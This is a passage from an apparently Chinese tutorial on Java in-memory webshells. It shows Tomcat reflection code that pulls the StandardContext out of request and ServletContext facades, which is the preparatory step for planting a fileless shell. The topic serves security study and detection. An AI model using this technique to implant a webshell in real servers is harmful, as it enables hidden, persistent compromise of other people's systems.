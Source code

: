 ```java
	Field reqF = org.apache.catalina.connector.RequestFacade.class.getDeclaredField("request");
    reqF.setAccessible(true);
    org.apache.catalina.connector.Request req = (Request) reqF.get(request);
    org.apache.catalina.core.StandardContext standardContext = (StandardContext) req.getContext();
```

jsp上下文中，我们也可以通过下图这个关系来拿到`StandarContext`

![3](Java应用内存马/requestGetContext2.png)

ServletContext与Context没有继承关系

![ServletContext](Java应用内存马/ServletContext.png)

转换为如下代码：

```java
    ApplicationContextFacade applicationContextFacade = (ApplicationContextFacade) request.getServletContext();
    Field field = ApplicationContextFacade.class.getDeclaredField("context");
    field.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) field.get(applicationContextFacade);
    field = ApplicationContext.class.getDeclaredField("context");
    field.setAccessible(true);
```
